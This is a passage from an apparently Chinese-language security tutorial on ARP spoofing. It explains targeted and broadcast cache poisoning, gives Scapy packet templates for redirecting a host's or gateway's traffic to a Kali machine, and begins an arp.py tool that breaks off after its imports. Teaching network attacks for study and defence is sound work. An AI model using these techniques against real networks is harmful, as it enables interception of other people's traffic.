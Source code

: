 ARP欺骗的方式分为定向欺骗和广播欺骗两种。

#### 3.5.3.1 定向欺骗

现在来构造数据包就很容易了，回到我们最初的目标，我们想告诉192.168.1.23这台主机网关地址为192.168.1.102所在的主机，构造的数据包应该是这样的：

```
pkt = Ether(src=[1.102的MAC], dst=[1.18的Mac]) / ARP(1.102的MAC, 网关IP地址, hwdst=1.18MAC, pdst=1.18IP地址, op=2)
```
上面的代码我们不论是以太网数据包还是ARP数据包，我们都明确指定了来源和目标，在ARP数据包中，我们将Kali Linux的Mac地址和网关的IP地址进行了绑定，op取值为2，作为一个响应包被 1.18 接到，这样 1.18会更新自己的ARP缓存表，造成中毒，从而 1.18 发往网关的数据包都会被发往 1.102。

那么我们如果要欺骗网关，把网关发往1.18的数据包都发送到Kali Linux（1.102）上，根据上面的代码稍作修改即可：

```
pkt = Ether(src=[1.102的MAC], dst=[网关的Mac]) / ARP(1.102的MAC, 1. 18地址, hwdst=网关MAC, pdst=网关IP地址, op=2)
```
上面构造的两个数据包都是ARP响应包，其实发送请求包也可以进行毒化，请求包毒化的原理是，我们请求时候使用假的源IP和MAC地址，目标主机同样会更新自己的路由表。

ARP请求的方式欺骗主机，构造的ARP包如下：
```
pkt = Ether(src=[1.102的MAC], dst=[1. 18的Mac]) / ARP(1.102的MAC, 网关IP地址, hwdst=1. 18MAC, pdst=1. 18IP地址, op=1)
```
ARP请求的方式欺骗网关，构造的ARP包如下：
```
pkt = Ether(src=[1.102的MAC], dst=[网关的Mac]) / ARP(1.102的MAC, 1. 18地址, hwdst=网关MAC, pdst=网关IP地址, op=1)
```
我们看到构造ARP请求和响应的主要区别在op的值。

#### 3.5.3.2 广播欺骗

目前我们欺骗的方式都是一对一欺骗的，事实上我们可以发送广播包，对所有主机进行欺骗。

广播欺骗，首先以太网数据包直接构造一个广播包，ARP包不用填写目标主机的信息即可。

下面是ARP广播响应包的构造方式：
```
pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], op=2)
```
最后综合定下和广播欺骗的方式，我们总结一个公式出来：
```
pkt = Ether(src=攻击机MAC, dst=被欺骗主机（或网关）MAC) / ARP((hwsrc=毒化记录中的MAC, 毒化
```
记录中的IP, hwdst=被欺骗主机MAC, pdst=被欺骗主机IP地址, op=1（或2）)

概念有点绕，实践出真知,稍后我们通过代码来加深理解。

### 3.5.4 编写自己的ARP欺骗工具

新建arp.py文件，添加如下代码，先导入我们需要的模块：
```Python
# -*- coding: UTF-8 -*-
import sys
import os
import time
from optparse import OptionParser
from scapy.all import (
    get_if_hwaddr,
    getmacbyip,
    ARP,
    Ether,
    sendp
)

def main():
    try:
```